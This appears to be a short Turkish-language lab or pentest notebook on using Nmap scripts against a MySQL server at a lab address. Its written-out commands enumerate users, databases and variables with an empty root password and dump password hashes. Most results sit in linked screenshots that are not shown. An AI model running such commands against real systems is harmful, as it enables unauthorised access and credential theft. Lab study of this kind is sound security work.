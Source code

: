 ## Nmap -- SQL -- Script -- ARGs -- Users
![[Pasted image 20240126131029.png]]

##### nmap 10.0.2.5 -p3306 -sV --script=mysql-users --script-args="mysqluser='root', mysqlpass=''"

### Bu script bize sql'deki bütün kullanıcıların isimlerini verdi ve bunları da kaydettik.

## NMAP SQL SCRIPT ARGS DATABASES

##### nmap 10.0.2.5 -p3306 -sV --script=mysql-databases --script-args="mysqluser='root', mysqlpass=''"

 ![[Pasted image 20240126131613.png]]
 
![[Pasted image 20240126131557.png]]

---
## NMAP SQL SCRIPT ARGS Variables
![[Pasted image 20240126131652.png]]

##### nmap 10.0.2.5 -p3306 -sV --script=mysql-variables --script-args="mysqluser='root', mysqlpass=''"

![[Pasted image 20240126131906.png]]
![[Pasted image 20240126131933.png]]
---
## AUDIT Script

![[Pasted image 20240126132408.png]]
![[Pasted image 20240126132431.png]]

---

## NMAP DUMP HASHES SQL

![[Pasted image 20240126132616.png]]

##### nmap 10.0.2.5 -p3306 -sV --script=mysql-dump-hashes --script-args="username='root', password=''"
![[Pasted image 20240126132743.png]]

---
